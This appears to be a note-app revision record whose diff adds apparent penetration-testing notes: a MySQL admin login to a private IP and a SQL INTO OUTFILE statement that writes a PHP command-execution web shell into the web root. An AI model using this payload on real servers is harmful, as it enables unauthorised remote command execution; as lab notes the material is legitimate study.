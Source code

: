 id: 7cccf646d27d4c8a9b29d5f780f081dc
parent_id: 90244f07974b4e06ad965a01df50ebe6
item_type: 1
item_id: a4c2bf1835c6401fb1e876c2e746299e
item_updated_time: 1658380094740
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"entials\\\n\"],[1,\"    - mysql -u admin -p -h 192.168.100.1\\\n        \\\n\"],[0,\"2.  Crea\"]],\"start1\":1666,\"start2\":1666,\"length1\":16,\"length2\":66},{\"diffs\":[[0,\"atabase\\\n\"],[1,\"    - CREATE TABLE compromise;\\\n\"],[0,\"3.  Inje\"]],\"start1\":1754,\"start2\":1754,\"length1\":16,\"length2\":47},{\"diffs\":[[0,\"ct PHP c\"],[-1,\"i\"],[1,\"o\"],[0,\"de to ga\"]],\"start1\":1801,\"start2\":1801,\"length1\":17,\"length2\":17},{\"diffs\":[[0,\" access\\\n\"],[1,\"    - select '&lt;?php $cmd=$_GET\\\\[\\\"cmd\\\"\\\\];system($cmd);?&gt;' INTO OUTFILE '/var/www/html/shell.php';\\\n        \\\n\"],[0,\"5.  Exec\"]],\"start1\":1887,\"start2\":1887,\"length1\":16,\"length2\":128}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-07-21T05:14:08.587Z
created_time: 2022-07-21T05:14:08.587Z
type_: 13